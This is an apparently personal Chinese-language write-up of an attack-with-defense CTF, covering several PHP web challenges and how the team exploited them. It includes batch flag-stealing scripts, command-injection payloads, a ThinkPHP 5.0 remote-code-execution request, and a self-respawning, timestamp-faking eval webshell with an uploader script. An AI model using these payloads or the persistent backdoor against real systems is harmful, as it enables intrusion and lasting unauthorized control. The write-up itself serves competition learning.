










又双叒叕的打了一次AWD比赛，简单地总结一下

## web2

### 直接读flag

最开始放了web2，ssh连上去，d盾没扫出什么东西

然后开始一个个看(现在都流行不放shell，直接给flag的2333)



丢给群里的其他师傅开始写批量

```python
import requests
import re
port = [20180,20280,20380,20480,20580,20680,20780,20880,20980,21080,21180,21280,21380,21480,21580,21680,21780,21880,21980,22080,22180,22280,22380,22480]
url = 'http://ip:{port}/login.php'
for i in port:
    r = requests.get(url=url.format(port=str(i)))
    if r.status_code == 200:
        try:
            print(re.findall(r"(flag{.*})",r.text)[0])
        except IndexError:
            pass
```

批量交flag(后来发现平台有设置csrf token。导致无法批量交。)

```python
send_url = 'http://ip:8001/api/v1/challenges/attempt'
cookie = {'Cookie': 'session=be71fde5-8749-46b2-8ac6-fb30b0ec93bb; PHPSESSID=pdq189at1p9g6478tmt8urkng2'}
for flag in submit_flag:
    data = {"challenge_id":2,"submission":flag}
    requests.post(url=send_url,data=data,cookies=cookie)
```

最后合并为十分钟交一次

```python
import requests
import re
from time import sleep
while True:
    port = [20180,20280,20380,20480,20580,20680,20780,20880,20980,21080,21180,21280,21380,21480,21580,21680,21780,21880,21980,22080,22180,22280,22380,22480]
    url = 'http://ip:{port}/login.php'
    submit_flag = []
    for i in port:
        r = requests.get(url=url.format(port=str(i)))
        if r.status_code == 200:
            try:
                submit_flag.append(re.findall(r"(flag{.*})",r.text)[0])
            except IndexError:
                pass
    
    send_url = 'http://ip:8001/api/v1/challenges/attempt'
    cookie = {'Cookie': 'session=be71fde5-8749-46b2-8ac6-fb30b0ec93bb; PHPSESSID=pdq189at1p9g6478tmt8urkng2'}
    for flag in submit_flag:
        data = {"challenge_id":2,"submission":flag}
        req = requests.post(url=send_url,data=data,cookies=cookie)
        if 'incorrect' not in req.text:
            print('提交正确')
    sleep(600)
```

ps.赛后师傅说并没有换cookie，用下面的代码就能批量交。



### 后台任意文件上传

看到 `test.sql` 中是有用户名和密码的，登录之后有上传点

黑名单只有这几个。。而且htaccess还写错了，php5,php7,phtml也都没有过滤，不过上传之后还是会重命名，算是也过滤了 `.htaccess`

```
$black_list = ["ini","htacces","php","ph3","html"];
$ext=pathinfo($name)['extension'];
$ext =strtolower($ext);
```

## web3

### md文件解析漏洞

这个web套路好深2333

d盾可以扫到一个shell，但是是在markdown文件中，还有一个是库中的回调函数



最开始以为是d盾误报，结果后来看了一眼 `.htaccess`

```
AddType application/x-httpd-php .html .md
```

居然将markdown文件解析为php….这个思路挺强的

但是由于发现的比较晚，貌似都修好了

### ping命令执行

```php
function waf($str){
    $str=str_replace(' ','',$str);
    $str=str_replace(';','',$str);
    $str=str_replace('|','',$str);
    return $str;
}
function ping($host){
    $host=waf($host);
    var_dump($host);
    system("ping -c 1 $host");
}

if(isset($_REQUEST[1]))
    ping($_REQUEST[1]);
```

这个命令执行倒是挺简单的， `&cat</flag` 即可

```python
import requests
import re
port = [30180,30280,30680,30780,30980,31180,31280,31380,31480,31580,31780,31880,31980,32080,32180,32280,32380,32480,31080,30580,30380,30480,30880,31680]
url = 'http://ip:{port}/common/function.php?1=&cat</flag'
for i in port:
    r = requests.get(url=url.format(port=str(i)))
    try:
        print(re.findall(r"(flag{.*})",r.text)[0])
    except IndexError:
        pass
```

### 后台文件上传

审计源码发现 `admin, admin` 即可登陆

然后有文件上传点，直接传shell.md即可解析

事后写了一个批量上传不死马的脚本

```python
import requests
import hashlib
bs_webshell = """<?php
    ignore_user_abort(true);
    set_time_limit(0);
    unlink(__FILE__);
    $file = '%s';
    $code = '<?php if($_POST["pass"]=="%s"){@eval($_POST[1]);}?>';
    while (1) {
        file_put_contents($file, $code);
        system('touch -m -d "2018-12-01 09:10:12" %s');
        usleep(50);
    }
?>"""
secret = "pxy"
shell_path = ".pxy.php"

def md5_hash(s):
    return hashlib.md5(s.encode()).hexdigest()
def generateShell(ip):
    pwd = md5_hash(secret + ip)
    shell = bs_webshell % (shell_path, pwd, shell_path)
    print(shell)
    return shell

def checkShell(ip,shell_path):
    url = 'http://%s/%s' % (ip, shell_path)
    try:
        res = requests.get(url, timeout=3)
    except:
        pass
    pwd = md5_hash(secret + ip)
    res = requests.post(url, data={'pass': pwd, '1': 'echo(123);'})
    print(res.text)
    if res.text == '123':
        print('[+]'+ip,'Check OK')

ports = [30180,30280,30380,30480,30580,30680,30780,30880,30980,31080,31180,31280,31380,31480,31580,31680,31780,31880,31980,33080,32180,32280,32380,32480]
ip = "127.0.0.1"

for i in ports:
    files = {"pic":('shell.md', generateShell(ip), 'application/octet-stream')}
    cookies = dict(PHPSESSID='fjue55il5q0v90fp8l66us6hq0')

    url = "http://"+ip+":"+str(i)

    url_upload = url+"/index.php?c=User&a=upload"
    r = requests.post(url=url_upload,files=files, cookies=cookies)
    if b"successfully" in r.content:
        print("[+]"+ip+":"+str(i)+" upload success")
    
    url_1 = url + "/upload/admin_shell.md"

    try:
        r = requests.get(url_1,timeout=2)
    except requests.exceptions.ReadTimeout:
        checkShell(ip, "upload/.pxy.php")
```

后来研究发现，其实文件上传不仅仅是

```
/index.php?c=User&a=upload
```

也可以

```
/index.php?c=File&a=save
```

因为 `index.php` 是这样写的

```php
$c=isset($_GET['c'])?$_GET['c']:'User';
$a=isset($_GET['a'])?$_GET['a']:'Index';

$obj=run_c($c);
run_a($obj,$a);
```

URL格式为：

```
http://localhost/index.php?c=User&a=home
```

就是可以调用任意类的任意方法

ps比赛的时候我们是这么想的：

看到 `base.php` 中实例化了 `Smarty`



之后看到这里有一处eval。



于是就开始想能不能getshell，但是无果。

### 后台getshell

感谢a2u13师傅

还是接前面的分析，可以执行任意类的任意方法。但是那个地方是字符串拼接！。

所以可以直接通过 `;` 进行命令注入



File类需要登陆才能使用，换一个 `User`类就行



比赛的时候确实没往这块想，还是要加强代码审计啊

### 反序列化漏洞

```php
<?php

class home{
    
    public $method;
    public $args;
    function __construct($method, $args) {
        
      
        $this->method = $method;
        $this->args = $args;
    }

    function __destruct(){
        var_dump($this->method);
        ($this->method)($this->args);
    } 

}
     $a=$_REQUEST['a'];
    @unserialize($a);
    
     ?>
```

看上去挺像反序列化的，但是

```
($this->method)($this->args);
```

这里是报错的，所以比赛的时候没法利用

复盘的时候才意识到原来只有php7才可以这么用

经过测试发现只能直接动态调用system函数，eval和assert都是不行的





## web1

web1是最后放出来的，为了提高挑战性不给ssh密码。

但是稍微看两眼就会发现是tp5.0写的，还开了debug，于是直接RCE了

```python
import requests
import re
port = [10180,10280,10380,10480,10580,10680,10780,10880,10980,11080,11180,11280,11380,11480,11580,11680,11780,11880,11980,12080,12180,12280,12380,12480]
url_flag = 'http://ip:{port}/public/index.php?s=captcha'
data = {'_method':'__construct',
        'filter[]':'system',
        'method':'get','get[]':'cat /flag'}
for i in port:
    r = requests.post(url=url_flag.format(port=str(i)),data=data)
    if r.status_code == 200:
        try:
            print((re.findall(r"(flag{.*})",r.text)[0]))
        except IndexError:
            pass
```

这一波flag还是挺舒服的，但是遗憾的是没法修啊。。



不过后来意识到可以直接将 `/var/www/html` 下的文件打包下载，还可以自己往里面写shell然后蚁剑连接进行修改。
